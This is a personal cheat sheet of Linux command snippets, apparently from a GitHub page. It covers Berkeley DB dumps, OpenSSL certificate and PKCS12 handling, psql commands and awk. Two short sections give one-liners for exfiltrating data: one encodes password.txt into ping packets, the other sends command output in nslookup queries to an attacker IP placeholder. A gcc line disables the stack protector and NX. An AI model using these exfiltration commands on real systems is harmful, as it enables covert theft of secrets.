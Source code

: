 # Useful Linux command line snippets

## View Berkeley DB files

```sh
$ file filename.db
postgrey.db: Berkeley DB (Btree, version 9, native byte-order)
$ db_dump -p filename.db
# <snip>
```

`db_dump` in package `core/db` on Arch/`db-util` on Debian

### in python

```python
import bsddb
for k, v in bsddb.btopen("filename.db").iteritems():
    print k, v
```

## OpenSSL one-liner to create a self-signed cert for 10 years

```sh cheat openssl Create self-signed cert
openssl req -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.crt
```

## gcc: enable executable stack, disable NX

```sh
gcc -fno-stack-protector -z execstack -o test test.c
```

## Postres psql commands

```
\? list all the commands.
\l(+) list databases.
\d(+) list tables, views, sequences.
\conninfo display information about current connection.
\c [DBNAME] connect to new database, e.g., \c template1.
\dt list tables.
\q quit psql.
```

This lists databases:

```
SELECT datname FROM pg_database
WHERE datistemplate = false;
```

This lists tables in the current database

```
SELECT table_schema,table_name
FROM information_schema.tables
ORDER BY table_schema,table_name;
```

## split lines and print them using awk

```
❯ cat testinput
user1          user2          user3
user4       user5     user6
user7
❯ cat testinput | awk '{printf "%s\n%s\n%s\n",$1,$2,$3}'
user1
user2
user3
user4
user5
user6
user7



# alternative solution
❯ awk '{print $1; print $2; print $3}' testinput
user1
user2
user3
user4
user5
user6
user7




```

There are newlines at the end that I can't explain, but I can live with that. I think they are because of the newline at the end of the file.

## Exfiltrate data via ping
`cat password.txt | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done`

## Exfiltrate data via nslookup (on Windows)
`for /F "tokens=1,2,3,4,5,6,7,8,9,10" %b in ('<cmd>') do nslookup "~!%b--%c--%d--%e--%f--%g--%h--%i--%j--%k~~" <attackerip>)`

## Generating .p12 from X509 and P7 using OpenSSL

### Generating PKCS12 Certificate using x509

 - Save Private Key in a file (cert-privkey.crt)
 - Save x509 Cert in a file (cert-pickup.crt)
 - Run Below command to generate PKCS12 Certificate (certificate.pfx)

```bash cheat openssl Convert x509 to PKCS12
openssl pkcs12 -export -out certificate.pfx -inkey cert-privkey.crt -in cert-pickup.crt
```

### Generating PKCS12 Certificate using PKCS7 Certificate

 - Save Private Key in a file (cert-privkey.crt)
 - Save x509 Cert in a file (cert-pickup.crt)
 - Run Below command to generate PKCS12 Certificate (certificate.pfx)

```bash cheat openssl convert PKCS7 to PKCS12
openssl pkcs7 -in cert-p7b-file.p7b -out smime-cert.pem -print_certs`
openssl pkcs12 -export -inkey cert-p7b-priv.key  -in smime-cert.pem -name Smime-SymantecTest -out smime-Final.pfx
```

## Extract data from PKCS12 certificate

```bash cheat openssl Extract CA, cert and key from PKCS12
openssl pkcs12 -in file.pfx -clcerts -nokeys -out cert.crt
openssl pkcs12 -in file.pfx -nocerts -nodes -out key.pem
openssl pkcs12 -in file.pfx -cacerts -nokeys -out ca.crt
```

tags: linux snippets python openssl postgresql awk
